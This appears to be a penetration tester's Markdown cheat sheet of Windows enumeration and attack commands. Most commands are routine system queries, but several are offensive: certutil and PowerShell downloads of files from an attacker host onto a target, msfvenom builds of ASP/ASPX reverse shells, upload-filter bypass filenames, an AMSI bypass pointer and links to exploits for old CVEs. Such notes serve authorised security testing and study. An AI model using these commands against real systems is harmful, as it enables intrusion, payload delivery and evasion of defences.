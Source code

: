 OS architecture 

- powershell

```powershell
# https://docs.microsoft.com/en-us/dotnet/api/system.environment.is64bitoperatingsystem?view=net-6.0
[System.Environment]::Is64BitOperatingSystem
# without .Net
(gwmi Win32_OperatingSystem).OSArchitecture -eq '64-bit'
```

- cmd

```cmd
(wmic os get osarchitecture)
```

AppData's Temp folder (%TEMP%)

```cmd
C:\Users\<User Account>\AppData\Local\Temp
C:\Windows\Temp
```

[displays file ownership information](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dir)

```cmd
dir /q /a
```

privileges information

```cmd
whoami /priv
whoami /all
whoami /groups
```

check network connections 

```cmd
netstat -ano | findstr LISTEN
```

file transfer

```cmd
# on target 
certutil -urlcache -split -f "http://<attacker ip>/<file>" "C:\Users\<User Account>\Desktop\<file>"
PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://<attacker ip>/<file>', '<file>')"
Powershell Invoke-WebRequest -OutFile C:\Users\<User Account>\Desktop\<file> -Uri http://<attacker ip>/<file>
```

checking if Windows Defender is active

```powershell
get-item 'hklm:\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection\'
```

ASP & ASPX reverse shell

```shell
# ASP
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f asp -o rev.asp
# ASPX
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f aspx -o rev.aspx
# file upload bypass
#   try filename "rev.aspx..... .. . . ."
#   try filename "rev.aspx.png"
#   try web.config (File_Upload_Bypass.md)
```

get all drives

```powershell
# powershell
gdr -PSProvider 'FileSystem'
```

```cmd
REM cmd
wmic logicaldisk get deviceid, volumename, description
```

SMB

```shell
nmap -p 445 --script vuln <target ip>
```

Kali provides [Windows executables](https://www.kali.org/tools/windows-binaries/)

```shell
# /usr/share/windows-resources/binaries
find / -name whoami.exe 2>/dev/null
windows-binaries -h
```

UNZIP

```cmd
REM Windows 10 build 17063 or later
tar -xf <zip file>
```

Bypass AMSI Powershell (PEN-300)

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

```
1. one liners to multiple lines
2. hex encoding
```

list firewall rules

```cmd
Netsh advfirewall firewall show rule dir=in name=all
```

Windows Updates

```cmd
wmic qfe
```

```powershell
Get-HotFix
```

Installed Programs

```cmd
wmic product get name, version, installlocation
```

copy file from net share folder

```powershell
Copy-Item -path "\\<target ip or hostname>\<folder($)>" -destination .\ -Recurse
```

check running services

```
Get-Service | where {$_.Status -eq "Running"}
```

[registry query](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg)

```cmd
reg query HKEY_LOCAL_MACHINE\Software /f Python
```

[Tasklist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist)

```
tasklist /v
```

Windows Library Files

```
https://wikileaks.org/ciav7p1/cms/page_13763381.html
https://blog.f-secure.com/abusing-windows-library-files-for-persistence/
```

#### Old Vulnerability

MS08_067 [tool 1](https://github.com/andyacer/ms08_067) [tool 2](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)

```shell
# check os version
nmap -p <target ports> --script /usr/share/nmap/scripts/smb-os-discovery <target ip>
```

CVE-2019-0708

```
https://github.com/robertdavidgraham/rdpscan
```

CVE-2017-7269

Microsoft Windows Server 2003 IIS 6.0 WebDAV

```
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```

CVE-2014-6271

```
https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py
```

#### Resources

```
https://ss64.com/
```